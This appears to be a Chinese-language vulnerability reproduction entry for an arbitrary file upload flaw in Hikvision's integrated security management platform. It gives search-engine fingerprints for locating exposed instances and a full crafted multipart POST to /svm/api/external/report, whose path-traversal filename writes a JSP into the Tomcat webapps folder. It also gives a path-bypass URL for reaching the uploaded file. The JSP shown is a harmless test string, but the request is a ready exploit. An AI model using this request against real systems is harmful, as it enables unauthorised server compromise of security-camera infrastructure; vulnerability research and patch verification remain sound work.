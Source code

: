 # 

# HIKVISION 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

HiKVISION 综合安防管理平台

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面

![image-20220824134144287](./images/202208241341481.png)

```
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```

![image-20230828163755020](images/image-20230828163755020.png)

```
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![image-20230828163809686](images/image-20230828163809686.png)

构造上传文件（通过 env泄漏获取绝对路径，路径一般不会修改）

```
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![image-20230828163835117](images/image-20230828163835117.png)

```
/portal/ui/login/..;/..;/new.jsp
```

![image-20230828163848482](images/image-20230828163848482.png)

